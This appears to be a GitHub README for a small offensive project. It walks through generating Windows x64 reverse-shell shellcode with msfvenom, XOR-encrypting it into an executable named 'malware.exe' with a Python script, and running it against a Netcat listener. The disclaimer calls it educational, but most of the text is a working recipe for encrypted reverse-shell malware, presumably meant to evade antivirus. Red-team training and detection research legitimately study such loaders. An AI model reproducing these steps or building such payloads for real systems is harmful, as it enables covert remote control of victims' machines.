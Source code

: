 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python3](https://www.python.org/downloads/)
3. [Metasploit Framework](https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o payload.bin
```
##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode and generate `malware.exe`.
```sh
python3 xorencrypt.py
```
### Execute
1. Run the listener (such as [Netcat](https://github.com/diegocr/netcat/) tool)
2. Run `malware.exe`

***Everything is strictly for educational purposes!***
